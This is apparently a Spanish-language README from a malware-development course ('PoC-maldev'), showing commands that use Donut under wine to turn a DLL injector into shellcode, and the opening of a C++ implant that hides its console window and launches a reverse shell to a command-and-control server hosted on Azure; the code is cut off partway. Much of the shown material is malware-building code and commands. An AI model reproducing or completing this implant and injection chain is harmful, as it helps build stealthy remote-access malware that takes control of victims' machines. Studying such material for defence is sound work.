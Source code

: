   - Instalacion de Donut
```bash
wget https://github.com/TheWover/donut/releases/download/v0.9.3/donut_v0.9.3.zip -O PoC-maldev/donut.zip
unzip PoC-maldev/donut.zip -p donut.exe > donut.exe
rm PoC-maldev/donut.zip
```

  - Ejecucion en Linux
```bash
wine donut.exe -e 1 -b 1 -o dllinjector.bin -t dllinjector.exe
```

  - Ejecucion en Alpine
```bash
wine64 donut.exe -e 1 -b 1 -o dllinjector.bin -t dllinjector.exe
```

Dudas? ... Unete a la [charla](https://t.me/Ivam3by_Cinderella/22) en nuestro [Chat de Telegram](https://t.me/Ivam3by_Cinderella)

    Asiste a la [Tercera Parte](https://t.me/Ivam3byCinderella?livestream) de la ponencia en el [canal de Telegram](https://t.me/Ivam3byCinderella) de la comunidad.

4. Servidor de Comando y Control (server2.py) e implante final (implant.exe): Las 3 etapas principales del malware PoC que se cubrieron en las primeras 2 clases del curso van a permitir injectar nuestro implante final (implant.exe) que nos va a permitir ejecutar comandos y tomar control desde nuestro servidor de Comando y Control (server2.py) alojado en la nube de [Azure](https://portal.azure.com) en una instancia de máquina virtual Ubuntu 20.04 LTS. Para ello en esta última 3ra clase se cubre la programación del implante y consecutiva generación de su shellcode correspondiente, la programación del servidor y la creación de nuestro servidor en la nube. 

- Script PoC-maldev/implant.cpp
```cpp
//C++ Headers
#include <winsock2.h> //Socket Header
#include <windows.h> //Win API Header
#include <ws2tcpip.h> //TCP-IP Header

//C Header
#include <stdio.h> //Input Output Header

#pragma comment(lib, "user32.lib")
#pragma comment(lib, "Advapi32.lib")
#pragma comment(lib, "Shell32.lib")
#pragma comment(lib, "Ws2_32.lib")

#define DEFAULT_BUFLEN 1024

void RevShell(void);

void exec(char *, char *);

void whoami(char *);

void hostname(char *);

void pwd(char *);

int main() {

	HWND stealth; //Declare a window handle
	AllocConsole(); //Allocate a new console
	stealth = FindWindowA("ConsoleWindowClass", NULL); //Find the previous Window handler and hide/show the window depending upon the next command
	ShowWindow(stealth, SW_HIDE); //SW_SHOWNORMAL = 1 = show, SW_HIDE = 0 = Hide the console
	RevShell();

```